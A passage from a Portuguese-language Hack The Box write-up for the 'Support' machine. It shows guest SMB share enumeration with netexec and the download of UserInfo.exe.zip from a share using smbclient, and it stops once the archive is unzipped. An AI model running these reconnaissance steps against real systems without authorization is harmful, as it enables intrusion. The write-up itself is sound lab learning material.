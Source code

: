## Enumeration & Exploitation

​	Após fazer o scan, comecamos a enumerar a máquina e percebemos que temos acesso ao SMB como guest.

```bash
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ netexec smb support.htb -u 'guest' -p '' --shares
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.255  445    DC               [+] support.htb\guest: 
SMB         10.129.227.255  445    DC               [*] Enumerated shares
SMB         10.129.227.255  445    DC               Share           Permissions     Remark
SMB         10.129.227.255  445    DC               -----           -----------     ------
SMB         10.129.227.255  445    DC               ADMIN$                          Remote Admin
SMB         10.129.227.255  445    DC               C$                              Default share
SMB         10.129.227.255  445    DC               IPC$            READ            Remote IPC
SMB         10.129.227.255  445    DC               NETLOGON                        Logon server share 
SMB         10.129.227.255  445    DC               support-tools   READ            support staff tools
SMB         10.129.227.255  445    DC               SYSVOL                          Logon server share
```

​	Ao acessar a pasta **support-tools**, é possível ver que existe alguns arquivos. Depois de uma análise, o arquivo que nos interessa é o **UserInfo.exe.zip**.

```bash
┌──(kali㉿kali)-[~/…/HTB/support]
└─$ smbclient //10.129.227.255/'support-tools' -U "guest%"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 14:01:06 2022
  ..                                  D        0  Sat May 28 08:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 08:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 08:19:55 2022
  putty.exe                           A  1273576  Sat May 28 08:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 08:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 14:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 08:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 08:19:43 2022

                4026367 blocks of size 4096. 968152 blocks available
smb: \> mget UserInfo.exe.zip
Get file UserInfo.exe.zip? y
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (151.5 KiloBytes/sec) (average 151.5 KiloBytes/sec)
smb: \> exit
```

​	Ao descompactar o arquivo, percebemos que existe alguns aqruivos de DLL e um arquivo executável.
